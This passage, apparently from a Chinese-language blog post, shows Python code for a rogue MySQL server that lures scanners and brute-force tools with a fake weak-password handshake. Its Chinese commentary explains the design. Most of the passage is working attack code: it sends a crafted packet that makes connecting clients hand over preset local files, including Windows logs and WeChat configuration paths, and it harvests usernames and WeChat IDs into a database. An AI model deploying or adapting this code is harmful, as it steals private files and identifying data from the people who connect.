 ```
                    conn.close()
            else:
                conn.close()
        else:
            try:
                wantfile = chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename
                conn.sendall(wantfile)
                content=''
                while True:
                    data = conn.recv(1024)
                    print len(data)
                    content += data
                    if len(data) < 1024:
                        print 'ok'
                        break
                    
                conn.close()
                item=logpath + "/" + filename.replace("/", "_").replace(":", "")+'_'+str(random.random())
                if len(content) > 6:
                    with open(item, "w") as f:
                        f.write(content)
                        f.close()
                    return (True,content)
                else:
                    return (False,content)
            except Exception as e:
                print (e)
    except Exception as e:
        print (e)
```

这段代码主要有两个作用：

> 1. 判断是否为扫描器或者密码爆破工具，进行交互握手，效果是扫描器直接爆`3306`弱口令。
> 
> 2. 如果是直接连接，去读取设定好的文件，并写入本地保存。

PS：为了防止读取文件内容不完整，加入了 while 循环。

```
while True:
        conn, address = sv.accept()
        first_time = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        global files1
        global username
        global wx_id
        file=files1[0].replace('Administrator',username).replace('wx_id',wx_id)
        res,content = mysql_get_file_content(file,conn,address)
        files1.append(files1[0])
        files1.remove(files1[0])
        if res:
            if 'PFRO' in file:
                username = get_username(content)
                s= "xx" % (xx)
                cursor.execute(s)
                data = cursor.fetchall()
                if len(data)==0:
                    s = "XX" % (xx)
                    cursor.execute(s)
                    db.commit()
                    print 'success:'+ file
                    insert_file(file,address,username)
            elif 'config.data'in file:
                content = content
```